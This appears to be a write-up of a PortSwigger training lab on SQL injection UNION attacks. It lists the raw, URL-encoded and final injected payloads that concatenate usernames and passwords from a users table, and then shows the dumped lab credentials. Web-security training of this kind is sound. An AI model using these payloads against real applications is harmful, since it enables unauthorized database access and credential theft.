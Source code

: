 
# SQL injection UNION attack, retrieving multiple values in a single column

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___
**NOTE:** => Retrieving multiple values within a single column
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

step 1

![screnshot](./images/lab6_lifestyle_category.png)


step 2

`' UNION SELECT username || '~' || password FROM users--`
URL Encoded
`'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`
1st payload
`/filter?category=Lifestyle'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`

![screnshot](./images/lab6_internal_error.png)

step 3

`' UNION SELECT NULL,username || '~' || password FROM users--`
`'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`
final payload
`/filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`

![screnshot](./images/lab6_administor_id_password.png)

step 4

```html
<tr>
	<th>administrator~i5dmpumi3gj0f9j6u0m9</th>
</tr>
<tr>
	<th>carlos~nkvfe8sien71r8lq6hz0</th>
</tr>
<tr>
	<th>wiener~8bhjp9xprgbywgaf4cy6</th>
</tr>
```

![screnshot](./images/lab6_solved_lab.png)